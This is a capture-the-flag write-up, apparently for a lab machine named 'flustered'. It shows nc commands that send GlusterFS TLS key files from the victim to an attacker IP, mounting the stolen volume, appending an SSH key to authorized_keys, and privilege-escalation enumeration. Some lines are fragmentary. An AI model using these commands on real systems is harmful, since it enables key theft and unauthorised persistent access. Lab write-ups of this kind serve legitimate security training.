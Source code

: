 All three files(`.ca`, `.key` and `.pem`) are world-readable (including glusterfs.key , which is not by default, meaning its permissions were changed), so we can copy them to our local `/etc/ssl` directory. This allows us to mount the vol1 volume from our attacking machine.

##### Mount Vol1
```bash
www-data@flustered:~/html/app$ ls -l /etc/ssl/glusterfs*
-rw-r--r-- 1 root root 4060 Nov 25  2021 /etc/ssl/glusterfs.ca
-rw-r--r-- 1 root root 3243 Nov 25  2021 /etc/ssl/glusterfs.key
-rw-r--r-- 1 root root 1822 Nov 25  2021 /etc/ssl/glusterfs.pem
www-data@flustered:~/html/app$ nc -w 3 10.10.16.12 443 < /etc/ssl/glusterfs.ca
www-data@flustered:~/html/app$ nc -w 3 10.10.16.12 443 < /etc/ssl/glusterfs.key
www-data@flustered:~/html/app$ nc -w 3 10.10.16.12 443 < /etc/ssl/glusterfs.pem

❯ nc -lp 443 > glusterfs.key
❯ nc -lp 443 > glusterfs.pem
❯ ls -l
-rw-r--r-- 1 kali kali  4060 Jan 26 13:53 glusterfs.ca
-rw-r--r-- 1 kali kali  3243 Jan 26 13:54 glusterfs.key
-rw-r--r-- 1 kali kali  1822 Jan 26 13:54 glusterfs.pem
```

-t, --types <list>      limit the set of filesystem types

```bash
mount -t glusterfs flustered.htb:/vol1 /mnt
```

Other writeups won't work here, at least for me. Maybe that's the reason why it only has 2 stars for review.

After checking `/var/log/glusterfs/..log`. Those three files need to be put under `/usr/lib/ssh/...`. Yours maybe different as I tested on a default Kali 2023 January.

### SSH
```bash
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> authorized_keys
```

### Privilege Escalation
##### Enum
The `/var/backups` directory contains a key file which is readable by the jennifer group:
```bash
FMinPqwWMtEmmPt2ZJGaU5MVXbKBtaFyqP0Zjohpoh39Bd5Q8vQUjztVfFphk73+I+HCUvNY23lUabd7Fm8zgQ==
jennifer@flustered:~$ ls -l /var/backups/key
-rw-r----- 2 root jennifer 89 Oct 26  2021 /var/backups/key
```

/proc is mounted with hidepid=2, which means that I can only see processes running as jennifer:
```bash ssh
jennifer@flustered:~$ mount
sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
proc on /proc type proc (rw,relatime,hidepid=2)

jennifer@flustered:~$ ps auxww
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
jennifer  1422  0.0  0.2  21160  9024 ?        Ss   01:21   0:00 /lib/systemd/systemd --user
jennifer  1437  0.0  0.1   7916  4740 pts/0    Ss   01:21   0:00 -bash
jennifer  1500  0.0  0.0  10632  3116 pts/0    R+   01:33   0:00 ps auxww
```
